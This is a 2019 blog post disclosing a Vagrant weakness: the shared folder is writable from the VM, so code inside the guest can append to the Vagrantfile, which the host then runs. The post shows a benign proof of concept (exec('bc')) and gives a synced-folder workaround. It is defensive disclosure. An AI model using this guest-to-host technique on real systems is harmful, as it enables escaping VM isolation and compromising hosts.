 ```yaml
---
layout: post
title: Malicious vagrant boxes
---
```


{{ page.title }}
================

<p class="meta">8 June 2019 - Mojave Desert</p>
Did you know by default vagrant runs VMs in the same security context as your host operating system?

So if you tested a strange and unknown vagrant box off https://app.vagrantup.com/boxes/search, you're unfortunately not limiting the blast radius to the VM as your host could now be compromised as well.

To be clear I'm not aware of any cases where this has happened, just that it's possible and something worth watching out for.

The issue is pretty straightforward, vagrant mounts the code directory inside the VM as read/write. Normally the VM would be running your code so this wouldn't be much of a concern however this directory also contains the Vagrantfile configuration, which of course is just a ruby script and is executed every time you run `vagrant` on the host.

So here's a quick example of getting execution on the host from simply editing this file within the VM.

```
host$ vagrant init
A `Vagrantfile` has been placed in this directory. You are now
ready to `vagrant up` your first virtual environment! Please read
the comments in the Vagrantfile as well as documentation on
`vagrantup.com` for more information on using Vagrant.
host$ sed -i -e '/config.vm.box =/s@.*@config.vm.box = "ubuntu/eoan64"@' Vagrantfile   # Set config.vm.box to ubuntu/eoan64
host$ vagrant up
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Checking if box 'ubuntu/eoan64' version '20190605.0.0' is up to date...
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.
host$ vagrant ssh

**snip**

vagrant@ubuntu-eoan:~$ echo 'exec("bc")' >> /vagrant/Vagrantfile
vagrant@ubuntu-eoan:~$ logout
Connection to 127.0.0.1 closed.
host$ vagrant halt
bc 1.06
Copyright 1991-1994, 1997, 1998, 2000 Free Software Foundation, Inc.
This is free software with ABSOLUTELY NO WARRANTY.
For details type `warranty'. 
1+1
2
```

I've been meaning to make a post about this for some time, when I originally noticed this it was very difficult to find *any* mention of this which is a bit unfortunate. For a while, I've been using the following workaround, which I admit isn't ideal.. but still works.

```
  config.vm.synced_folder ".", "/vagrant", disabled: true
  config.vm.synced_folder "vagrant", "/vagrant"
```
This will move the shared folder to a sub-folder named vagrant, under the main directory, which includes the Vagrantfile config.


For another issue with vagrant shares make sure to check out [not-a-vagrant-bug](https://phoenhex.re/2018-03-25/not-a-vagrant-bug) as well.
